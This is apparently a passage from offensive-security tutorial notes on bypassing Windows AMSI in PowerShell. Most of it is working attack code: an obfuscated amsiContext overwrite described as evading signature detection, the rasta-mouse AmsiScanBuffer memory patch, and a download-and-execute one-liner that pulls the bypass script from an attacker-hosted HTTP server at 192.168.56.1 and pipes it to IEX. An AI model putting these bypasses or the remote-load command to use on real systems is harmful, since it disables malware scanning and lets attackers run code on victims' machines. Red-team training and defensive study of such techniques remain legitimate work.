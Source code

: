 - Modified version:

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

- This is trivial modifications, but this is enough to bypass the signature at the time of writing.
- Once we have done that we can use the rasta mouse AMSI bypass to disable AMSI at the .net level.
- If you want to know why you have to do that, you should read this blog post from @ShitSecure explaining the difference between powershell and .net AMSI level : [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)

```powershell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

- We put the bypass script on our disk and load it remotely

```bash
python3 -m http.server 8080
```

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```
